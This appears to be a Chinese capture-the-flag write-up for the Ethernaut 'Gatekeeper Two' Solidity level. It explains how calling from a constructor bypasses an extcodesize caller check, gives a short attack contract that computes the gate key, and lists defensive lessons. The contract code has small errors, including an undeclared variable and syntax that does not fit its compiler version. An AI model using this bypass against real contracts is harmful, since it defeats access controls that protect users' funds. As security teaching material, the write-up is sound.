 这关主要考察对访问控制、位操作和内联汇编的理解：
- 内联汇编：内联汇编是 Solidity 中的一种低级语言，用于直接在 Solidity 代码中编写汇编代码。

攻击思路：
1. Gate Two中使用内联汇编 extcodesize 检查调用者地址的代码大小：
extcodesize(caller()) 获取调用者（msg.sender）地址的代码大小。
如果调用者是合约地址，extcodesize 会返回合约代码的大小。
要求 extcodesize 返回 0，说明调用者不能是一个已经部署好的合约。
也即：需要在构造函数中调用目标合约来攻击，合约的构造函数执行期间，extcodesize 返回 0，因为合约的代码还没有部署。

2. Gate Three就很简单，uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1。

3.设计攻击合约
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface GatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperTwoAttack {
    constructor(address target) public {
        // 计算 _gateKey
        unchecked {
            gateKey = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ (uint64(0) - 1);
        }

        // 调用 enter 函数
        GatekeeperTwo(target).enter(gateKey);
    }
}
```

学习要点：
- 避免使用 extcodesize 判断调用者
extcodesize 的行为在合约构造期间容易被绕过。
- 在以太坊智能合约中，extcodesize(address) 是一个 EVM 操作码，它返回指定地址上存储的代码大小。通常用于检测目标地址是否为合约地址。
但是，由于智能合约的代码只有在部署完成后才会存储到区块链上，在部署合约的构造函数中调用 extcodesize 始终返回 0，这为某些攻击者提供了绕过检测的机会。
- 绕过原理：部署合约时，EVM 会先执行构造函数，直到构造函数完成后，才将合约字节码写入区块链。
在构造函数中查询合约自身的代码大小 extcodesize(address(this))，由于代码尚未存储，返回值永远为 0。
某些合约希望通过 extcodesize 检查调用者是否为外部账户（EOA）而非合约地址，通常这样写：
```solidity
require(extcodesize(msg.sender) == 0, "Contracts not allowed");
```
如果攻击者通过部署合约并在其构造函数中进行调用，由于构造阶段 extcodesize 返回 0，这种检测将被绕过。
- 改用更可靠的身份验证方式，比如签名验证。
- 限制调用者范围
验证调用者是否是预定义地址或经过授权的地址。
- 避免使用易预测的哈希值
不要依赖调用者地址或可预测的值作为访问条件。

## 15. Naught Coin ✅ [Medium]

